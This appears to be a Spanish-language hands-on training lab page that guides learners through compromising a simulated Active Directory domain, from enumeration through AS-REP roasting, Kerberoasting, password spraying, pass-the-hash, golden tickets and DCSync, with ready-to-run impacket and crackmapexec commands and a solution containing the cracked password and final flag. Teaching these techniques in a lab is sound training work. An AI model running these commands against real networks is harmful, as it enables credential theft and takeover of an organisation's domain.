


::: tip 🧪 Lab Interactivo Disponible
**¿Quieres practicar esto en tu navegador?** Tenemos una versión interactiva con terminal simulada, comandos reales y tracking de progreso.

👉 [**Abrir Lab Interactivo — Sin Docker**](/CyberDefense-Pro-Network/labs-interactive/lab-ad-01.html)

:::


# 🏢 Lab ad-01: Active Directory Attacks

> Simula un entorno empresarial completo y explota vulnerabilidades comunes de Active Directory.

## 📊 Diagrama de la Red Empresarial



## 🎯 Objetivos

- [ ] Obtener credenciales iniciales (credential harvesting)
- [ ] Enumerar el dominio Active Directory
- [ ] Realizar Kerberoasting
- [ ] Ejecutar Pass-the-Hash
- [ ] Obtener Domain Admin
- [ ] Capturar la flag final

## ⏱️ Información del Lab

| Campo | Valor |
|-------|-------|
| **Dificultad** | 🔴 Avanzado |
| **Tiempo estimado** | 120 minutos |
| **XP en juego** | 500 puntos |
| **Herramientas** | impacket, bloodhound, evil-winrm, mimikatz |
| **Flags** | 5 |

## 🚀 Inicio Rápido

```bash
# Levantar todo el entorno AD
cd labs/avanzado/ad-01
docker compose up -d

# Verificar que todos los servicios están corriendo
docker compose ps

# Obtener shell en Kali
docker compose exec kali bash
```

## 📋 Fase 1: Reconocimiento Inicial (100 XP)

### Ejercicio 1.1: Host Discovery (25 XP)

```bash
# Descubrir hosts en la red
nmap -sn 10.0.0.0/24
```

**Pregunta:** ¿Cuántos hosts activos encontraste?
- `[___]`

---

### Ejercicio 1.2: Port Scanning (25 XP)

```bash
# Escaneo completo de puertos
nmap -sV -sC -p- 10.0.0.0/24
```

**Pregunta:** ¿Qué servicios SMB encontraste y en qué hosts?
- `[___]`

---

### Ejercicio 1.3: SMB Enumeration (25 XP)

```bash
# Enumerar shares SMB
smbclient -L //10.0.1.10 -U '' -N
smbclient -L //10.0.1.20 -U '' -N

# Enumerar usuarios
enum4linux -a 10.0.1.10
```

**Pregunta:** Lista los shares SMB disponibles:
```
1. [___]
2. [___]
3. [___]
```

---

### Ejercicio 1.4: User Enumeration (25 XP)

```bash
# Usar kerbrute para enumerar usuarios
kerbrute userenum --dc 10.0.1.10 -d corp.local users.txt
```

**Pregunta:** ¿Qué usuarios del dominio encontraste?
- `[___]`

## 📋 Fase 2: Obtención de Credenciales (150 XP)

### Ejercicio 2.1: AS-REP Roasting (50 XP)

```bash
# Buscar usuarios con Pre-Auth deshabilitado
GetNPUsers.py corp.local/ -usersfile users.txt -dc-ip 10.0.1.10 -format hashcat -outputfile asrep.txt
```

**Tarea:** Crackear el hash obtenido
```bash
hashcat -m 18200 asrep.txt wordlist.txt
```

- [ ] Hash obtenido: `[___]`
- [ ] Contraseña crackeada: `[___]`

---

### Ejercicio 2.2: Kerberoasting (50 XP)

```bash
# Solicitar TGS para servicios
GetUserSPNs.py corp.local/John.Doe:Password123 -dc-ip 10.0.1.10 -request
```

**Tarea:** Crackear el hash SPN
```bash
hashcat -m 13100 kerberoast.txt wordlist.txt
```

- [ ] Hash obtenido: `[___]`
- [ ] Contraseña crackeada: `[___]`

---

### Ejercicio 2.3: Password Spraying (50 XP)

```bash
# Probar contraseñas comunes
crackmapexec smb 10.0.1.0/24 -u users.txt -p passwords.txt
```

**Tarea:** Encontrar credenciales válidas
- [ ] Usuario encontrado: `[___]`
- [ ] Contraseña: `[___]`

## 📋 Fase 3: Movimiento Lateral (150 XP)

### Ejercicio 3.1: Pass-the-Hash (50 XP)

```bash
# Usar hash NTLM para autenticación
psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:HASH_VALORES admin@10.0.1.10
```

- [ ] ¿Obtuviste acceso? `[Sí/No]`
- [ ] Comando utilizado: `[___]`

---

### Ejercicio 3.2: Kerberos Golden Ticket (50 XP)

```bash
# Crear Golden Ticket
ticketer.py -nthash KRBTGT_HASH -domain-sid S-1-5-21-... -domain corp.local Administrator
```

- [ ] ¿Creaste el ticket? `[Sí/No]`
- [ ] Archivo del ticket: `[___]`

---

### Ejercicio 3.3: DCSync (50 XP)

```bash
# Obtener hashes del dominio
secretsdump.py corp.local/Administrator:Password@10.0.1.10
```

- [ ] ¿Obtuviste el hash de KRBTGT? `[Sí/No]`
- [ ] Hash KRBTGT: `[___]`

## 📋 Fase 4: Domain Compromise (100 XP)

### Ejercicio 4.1: Domain Admin (50 XP)

Una vez tengas DCSync, usa el hash de Administrator para:
```bash
# Conectarse al DC
psexec.py -hashes ... Administrator@10.0.1.10

# O usar evil-winrm
evil-winrm -i 10.0.1.10 -u Administrator -H HASH
```

- [ ] ¿Obtuviste Domain Admin? `[Sí/No]`

---

### Ejercicio 4.2: Capturar Flag Final (50 XP)

```bash
# Leer la flag
type C:\Users\Administrator\Desktop\flag.txt
```

- [ ] Flag obtenida: `[___]`

## 🔍 Flujo de Resolución



## 🏁 Validación

```bash
# Ejecutar validación completa
./scripts/validate.sh

# Verificar cada fase
./scripts/check-phase.sh 1
./scripts/check-phase.sh 2
./scripts/check-phase.sh 3
./scripts/check-phase.sh 4
```

## 📝 Criterios de Éxito

| Criterio | Puntos | Estado |
|----------|--------|--------|
| **Fase 1: Reconocimiento** | | |
| Hosts descubiertos correctamente | 25 | ⬜ |
| Puertos SMB identificados | 25 | ⬜ |
| Shares enumerados | 25 | ⬜ |
| Usuarios del dominio | 25 | ⬜ |
| **Fase 2: Credenciales** | | |
| AS-REP Roast exitoso | 50 | ⬜ |
| Kerberoast exitoso | 50 | ⬜ |
| Password spray exitoso | 50 | ⬜ |
| **Fase 3: Movimiento Lateral** | | |
| Pass-the-Hash | 50 | ⬜ |
| Golden Ticket | 50 | ⬜ |
| DCSync | 50 | ⬜ |
| **Fase 4: Compromiso** | | |
| Domain Admin obtenido | 50 | ⬜ |
| Flag final capturada | 50 | ⬜ |
| **Total** | **500** | ⬜ |

## 🎓 Técnicas Cubiertas

### 1. AS-REP Roasting
```bash
# Buscar usuarios sin Pre-Auth
GetNPUsers.py domain/ -usersfile users.txt -dc-ip DC_IP
```

### 2. Kerberoasting
```bash
# Solicitar TGS para servicios
GetUserSPNs.py domain/user:pass -dc-ip DC_IP -request
```

### 3. Pass-the-Hash
```bash
# Usar NTLM hash
psexec.py -hashes LMHASH:NTHASH user@target
```

### 4. DCSync
```bash
# Obtener todos los hashes del dominio
secretsdump.py domain/admin:pass@DC_IP
```

### 5. Golden Ticket
```bash
# Crear ticket Kerbero gratuito
ticketer.py -nthash KRBTGT_HASH -domain-sid SID -domain corp.local user
```

## 🚨 Solución (Solo después de intentar)

<details>
<summary>🔓 Click para ver la solución completa</summary>

### Fase 1
```bash
nmap -sn 10.0.0.0/24  # 5 hosts
enum4linux -a 10.0.1.10  # Usuarios: John.Doe, Jane.Smith, Bob.Wilson
```

### Fase 2
```bash
GetNPUsers.py corp.local/ -usersfile users.txt -dc-ip 10.0.1.10
# Hash: $krb5asrep$23$bob.wilson@corp.local:...
hashcat -m 18200 asrep.txt rockyou.txt
# Password: Summer2024
```

### Fase 3
```bash
psexec.py corp.local/bob.wilson:Summer2024@10.0.1.10
# Shell como SYSTEM en DC
```

### Fase 4
```bash
secretsdump.py corp.local/Administrator:Password@10.0.1.10
# KRBTGT hash obtained
type C:\Users\Administrator\Desktop\flag.txt
# FLAG{d0m41n_c0mpr0m1s3d_2024}
```

</details>

---

*Lab creado para CyberDefense Labs — Nivel Avanzado*
